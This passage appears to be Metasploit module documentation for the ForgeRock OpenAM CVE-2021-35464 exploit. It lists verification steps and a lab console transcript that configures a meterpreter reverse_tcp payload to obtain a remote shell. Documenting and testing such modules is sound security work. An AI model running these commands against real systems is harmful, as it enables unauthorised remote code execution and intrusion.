 ## Verification Steps

1. Follow the OpenAM instructions listed above to install OpenAM
1. Follow the `ForgeRock with Docker` instructions above to install ForgeRock.
1. Do: `use exploit/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM 14.6.3 on Ubuntu 20.04.2 x64 with Docker version 20.10.7
```
msf > use exploit/multi/http/cve_2021_35464_forgerock_openam
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set LHOST docker0
LHOST => 172.18.0.1
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > set RPORT 7080
RPORT => 7080
msf exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                         machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /openam          yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


```